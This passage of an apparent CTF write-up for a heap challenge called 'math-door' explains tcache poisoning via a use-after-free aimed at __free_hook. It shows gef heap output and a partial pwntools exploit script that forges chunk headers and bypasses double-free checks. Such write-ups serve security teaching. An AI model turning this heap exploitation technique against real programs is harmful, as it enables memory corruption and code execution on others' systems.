 ## How not to crash a program
See, manipulating the heap in its current "suboptimal" state is at least tricky, but hold on, there is an interesting thing going on here
```
gef➤  heap bins tcache
──────────────────────────── Tcachebins for thread 1 ───────────────────────────
Tcachebins[idx=0, size=0x20] count=0  ←  Chunk(addr=0x7f2d2e849723, size=0xfffffffff8, flags=PREV_INUSE|IS_MMAPPED|NON_MAIN_ARENA)  ←  [Corrupted chunk at 0x84a7e0000000000a]
```
after allocating the chunk in `_IO_read_end`, `malloc()` has placed the pointer where `_IO_read_end` was pointing to in the tcache! But in order to use it we need that counter to be one. No problem, when we increment earlier the counter to two we can increment it to three instead :)

We only need to free one of the healthy chunks we already have allocated, it will be placed in the tcache, with its `next` pointing to the libc again (in this case to `0x7f2d2e849723`), and we can edit that through the UAF to make it point to `__free_hook`.

```python
from pwn import *

def create():
    p.sendafter(b"Action: \n", b"1")
def delete(idx):
    p.sendafter(b"Action: \n", b"2")
    p.sendafter(b"index:\n", bytes(str(idx), 'utf-8'))
def edit(idx, data):
    p.sendafter(b"Action: \n", b"3")
    p.sendafter(b"index:\n", bytes(str(idx), 'utf-8'))
    p.readuntil(b"hieroglyph:\n")
    p.send(data)

p = process("./math-door")
# p = remote("165.232.108.200", 31709)

create()
create()
create() # idx = 2, we'll overwrite size of this chunk
delete(1)
delete(0) # Now chunk #0 points to chunk with index 1

# UAF to make fwd point to chunk #2's header
edit(0, p64(0x10) + p64(0) + p64(0))

create()
create() # idx = 4, malloc() returns a pointer to chunk #2's header

# Create a chunk with PREV_INUSE set for our chunk that we'll make of size 0xa0
# Add one chunk extra to prevent it from coalescing with the top chunk
for _ in range(5):
    create()

### Keep a pointer to our chunk in the tcache bin for 0x20
# Make the chunk #2 of size = 0x20 (size gets zeroed when allocating)
edit(4, p64(0) + p64(0x21) + p64(0))
# And send it to 0x20 bin of tcache
delete(2) # Counter = 1
edit(2, p64(0) + p64(1) + p64(0)) # Prevent double free detection
delete(2) # Counter = 2
edit(2, p64(0) + p64(1) + p64(0))
delete(2) # Counter = 3
edit(2, p64(0) + p64(1) + p64(0))

# Make the chunk #2 of size > maxfast (e. g. 0xa0)
edit(4, p64(0) + p64(0x80) + p64(0))
```